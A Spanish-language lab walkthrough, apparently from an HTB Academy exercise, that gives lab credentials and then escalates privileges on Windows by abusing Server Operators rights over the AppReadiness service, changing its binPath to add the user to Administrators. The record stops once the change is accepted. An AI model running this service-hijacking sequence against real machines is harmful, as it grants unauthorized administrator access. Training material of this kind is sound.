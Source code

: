 `IP`:10.129.43.42
`USUARIO`:server_adm 
`PSSWORD`:HTB_@cademy_stdnt!


Nos conectamos al host mediante `RDP`
```bash
xfreerdp3 /v:10.129.43.42 /u:server_adm
```
<img width="1057" height="811" alt="image" src="https://github.com/user-attachments/assets/f3b808e3-4f26-4771-94ad-aeedf1803f10" />

El primer paso es consultar a qué grupo pertenece nuestro usuario mediante una powershell elevada:

```powershell
whoami /groups
```
<img width="835" height="454" alt="image" src="https://github.com/user-attachments/assets/5395ee9d-0430-4de0-9fcc-ea25df61be10" />

Confirmamos que somos miembros de `Server Operators`.

A continuación consultamos el servicio AppReadiness:

```powershel
sc.exe qc AppReadiness
```
<img width="763" height="274" alt="image" src="https://github.com/user-attachments/assets/464daff4-b66e-4378-a068-ab3949c9c0dc" />

Confirmamos que se ejecuta como `LocalSystem`. Esto nos permitira ejecutar comandos como SYSTEM.

El siguiente paso es comprobar los permisos del servicio `PsService.exe`

```powershell
C:\Tools\PsService.exe security AppReadiness
```
<img width="667" height="616" alt="image" src="https://github.com/user-attachments/assets/f031c5e7-c53b-4a58-8f69-3b00f88ea3c4" />

Confirmamos que nuestro grupo tiene control total sobre servicio (ALL). Esto nos permitira modificar la config del servicio.

Ahora verificamos membresia del grupo `Administrators`

```powershell
net localgroup Administrators
```
En la salida se muestran los miembros del grupo Administrators. Vemos que no pertenecemos al grupo.

<img width="728" height="182" alt="image" src="https://github.com/user-attachments/assets/cff5c506-0d13-4e82-a2dc-847806cad900" />

Luego modificamos la ruta binaria del servicio `Service Binary Path`:

```powershell
sc.exe config AppReadiness binPath= "cmd /c net localgroup Administrators server_adm /add"
```
<img width="856" height="178" alt="image" src="https://github.com/user-attachments/assets/122b2bce-e233-4431-9bda-92576ecd74ce" />

Vemos que la modificación de la configuración del servicio (binPath) fue aceptada. 










